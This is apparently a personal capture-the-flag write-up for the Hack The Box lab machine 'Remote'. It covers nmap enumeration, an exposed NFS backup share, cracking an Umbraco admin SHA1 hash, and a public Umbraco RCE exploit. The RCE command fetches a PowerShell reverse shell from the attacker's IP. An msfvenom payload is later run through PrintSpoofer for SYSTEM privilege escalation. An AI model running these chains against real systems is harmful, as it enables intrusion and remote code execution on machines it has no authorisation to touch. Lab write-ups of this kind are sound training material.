




# Summary


## about target

tip:  10.129.9.176

hostname:  Remote

Difficulty:  Easy


## about attack

+ nmap scan, miss the port 2049; 
+ web service, umbraco; app_data/umbraco.sdf  contains pwd/hash.
+ extract crypted Teamviewer password, decrypt. [htb-remote](https://0xdf.gitlab.io/2020/09/05/htb-remote.html#priv-iis--administrator)


**attack note**

```bash
Remote / 10.129.9.176

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
49666/tcp open  msrpc         Microsoft Windows RPC


---- insteresting
Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False) / crackmapexec 

administrator:b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

---- http enum
http://10.129.95.194/umbraco/#/login 
test@local.com; ping -c 1 10.10.14.78

sudo tcpdump -i tun0 icmp


http://10.129.95.194/umbraco/Ping.aspx

---- nfs enum
showmount -e $tip

sudo mount -t nfs $tip:/site_backups /mnt/


john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
---- exploit 


https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py

python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c whoami

python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c powershell.exe -a "-NoProfile -Command iex(new-object net.webclient).downloadstring('http://10.10.14.78/shell.ps1')"


.\jp.exe -t * -p c:\temp\4444.exe -l 9001

.\prt.exe -c .\4444.exe

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind?
135/tcp   open  tcpwrapped
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
49666/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|router|broadband router|proxy server|webcam|terminal|printer
Running (JUST GUESSING): AVtech embedded (98%), Linksys embedded (95%), OneAccess embedded (95%), Blue Coat embedded (95%), Polycom pSOS 1.X (95%), Wyse ThinOS 5.X (95%), Ricoh embedded (90%)
OS CPE: cpe:/h:oneaccess:1641 cpe:/h:bluecoat:packetshaper cpe:/o:polycom:psos:1.0.4 cpe:/o:wyse:thinos:5.2 cpe:/h:ricoh:aficio_sp_c240sf
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (98%), Linksys BEFSR41 EtherFast router (95%), OneAccess 1641 router (95%), Blue Coat PacketShaper appliance (95%), Polycom MGC-25 videoconferencing system (pSOS 1.0.4) (95%), Wyse ThinOS 5.2 (95%), Ricoh Aficio SP C240SF printer (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-11-03T11:13:25
|_  start_date: N/A

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   413.40 ms 10.10.14.1
2   413.59 ms 10.129.9.176


```


## http enum

gobuster scan; 

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log -x aspx,txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/umbraco/ -o gobuster-umbraco.log -x aspx,txt
```

found login page, /umbraco;

forget password, checked command injection, no vulnerability.


/umbraco/ping.aspx, nothing.


## ftp/smb

no found.


## nfs enum

```bash
showmount -e $tip
```





mount and check files.

```bash
sudo mount -t nfs $tip:/site_backups /mnt/

Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```




# Exploit

crack hash

```bash
echo b8be16afba8c314ad33d812f22a04991b90e2aaa > admin.hash
john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
john --show admin.hash

baconandcheese
```


login via smb, wrong pwd.

```bash
crackmapexec smb $tip -u admin -p baconandcheese --shares
```

login web, http://10.129.9.176/umbraco/#/login

admin@htb.local:baconandcheese

help, found version: 7.12.4



Search exploit, https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c whoami

```




get reverse shell, use Invoke-PowerShellTcp.ps1

```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.78 -Port 9001" >> shell.ps1

python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c powershell.exe -a "-NoProfile -Command iex(new-object net.webclient).downloadstring('http://10.10.14.78/shell.ps1')"
```

got shell.


# Privesc


## Local enum

SeImpersonate enabled.


## System

PrintSpoofer.exe

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=4444  EXITFUNC=thread -f exe -o 4444.exe

iwr -uri http://10.10.14.78/4444.exe -outfile 4444.exe

.\prt.exe -c .\4444.exe
```

got system.


